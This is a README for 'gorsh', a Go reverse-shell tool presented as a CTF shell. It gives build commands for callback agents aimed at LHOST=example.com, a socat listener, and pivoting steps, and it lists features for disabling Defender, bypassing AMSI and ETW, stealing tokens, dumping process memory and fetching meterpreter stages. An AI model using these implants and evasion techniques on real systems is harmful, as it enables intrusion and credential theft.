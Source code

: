 # gorsh

[go]lang [r]everse [sh]ell

[![forthebadge](https://forthebadge.com/images/badges/fuck-it-ship-it.svg)](https://forthebadge.com)
[![forthebadge](https://forthebadge.com/images/badges/made-with-go.svg)](https://forthebadge.com)
[![forthebadge](https://forthebadge.com/images/badges/no-ragrets.svg)](https://forthebadge.com)
[![forthebadge](https://forthebadge.com/images/badges/contains-technical-debt.svg)](https://forthebadge.com)
[![forthebadge](https://forthebadge.com/images/badges/made-with-crayons.svg)](https://forthebadge.com)

![](https://i.imgur.com/x51XH6K.png)
[![asciicast](https://asciinema.org/a/NmeC42TNu8BgdjMLcyVUXo74x.svg)](https://asciinema.org/a/NmeC42TNu8BgdjMLcyVUXo74x)



## Usage

Generate agents with:

```bash
# For the `make` targets, you only need the`LHOST`and`LPORT`environment variables.
$ make {windows,macos,linux} LHOST=example.com LPORT=443
```

Generate the server with:

```bash
# For the `make` targets, you only need the`LHOST`and`LPORT`environment variables.
$ make server LPORT=443
```

Gen everything with `make all LHOST=example.com LPORT=443

### Catching the shell

```sh
make listen LPORT=443
```

Tmux is powerful terminal multiplexer with robust session/windows/pane management. 
It works better at managing multiple reverse shells than most shell managers I've seen.
The server binary creates a tmux sessions per host and a window per each reverse shell binary invocation.
If you run the `spawn` command on a shell, a new window will open in the host's session, creating a "tab".

To not use `gorsh-server` and/or tmux:

```bash
socat -d -d OPENSSL-LISTEN:8443,reuseaddr,cert=certs/server.pem,verify=0,fork READLINE
```

## Features

- Network scanner
- Ligolo-ng tunnels for socks-less pivoting
- Tab completion
- Duplicate your shells with one command

### Windows
- Disable Defender (or any process) by demoting process tokens to untrusted.
- Execute Assembly - assemblies are gzipped & embedded. No hosting necessary
- Unhook modules (w/ builtins for AMSI and ETW)
- steal_token / revtoself
- getsystem - if admin
- minidump any process (uses comsvcs.dll)
- shellcode injection
- can fetch and inject meterpreter tcp and http stages
    - or any other shellcode that follows the metasploit staging protocol
    - first 4 bytes indicating the size of the following payload
        - `[size][payload]`

#### Not Windows
- `setuid`, useful for UID spoofing to bypass NFS "ACLs"
- Enumeration scripts
    - linpease
    - linenum

### Execute Assembly

Assemblies are gzipped and embedded within the implant. Since this is a CTF shell, I'm optimizing for ease of use and not advanced tradecraft.

- `make list-assemblies` will show available assemblies from Flangvik's SharpCollection project.
- `make choose-assemblies` will bring up fzf, where you can filter and choose what binaries you want embedded. They will be embedded at the next build time.
- to embed any other assemblies not in SharpCollection. gzip it and copy it to `./pkg/execute_assembly/embed/`

### Ligolo-NG Tunnels

Agents have the ligolo client embedded. Run `make start-ligolo` to prepare interfaces and run ligolo.
From an agent, run `pivot` and a callback should land within the litolo interface. Select the callback in ligolo and `start` routing. On your box, create a route to the remote network through the `tun` interface and all traffic to that destination will now egress through ligolo.

```bash
ip route add 172.16.43.0/24 dev ligol`
```

### File upload/download

Since this is a reverse shell, only sharing its stdin/out/err through a network socket, traditional methods of uploading and downloading file aren't available. There's a docker smb server to bridge that gap. Configure the directories to be shared in the `Makefile`, then run `make start-smb`. If you wish to see logs so you can monitor callbacks, use `make smblogs`. Windows implants understand UNC paths, so something like `cp //myip/tools/mimikatz.exe .` is possible.

## Resources and Acknowledgments
